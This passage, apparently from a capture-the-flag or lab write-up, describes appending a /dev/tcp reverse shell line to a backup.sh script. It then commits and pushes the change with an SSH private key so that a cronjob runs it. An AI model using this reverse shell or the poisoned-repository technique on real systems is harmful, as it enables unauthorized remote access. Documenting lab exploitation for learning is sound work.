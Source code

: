 A reverse shell command was appended to the `backup.sh` script.

```bash
echo "sh -i >& /dev/tcp/<kali ip>/8080 0>&1" >> backups.sh
```

![](images/2025-09-10_8.png)

## Commit and Push Changes
The malicious changes were committed and pushed back to the remote repository, ensuring the cronjob would execute them.
```bash
cd git-server
git config --global user.name "kali"
git config --global user.email "kali@kali.(none)"
git add -A
git commit -m "pwn"
#push
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

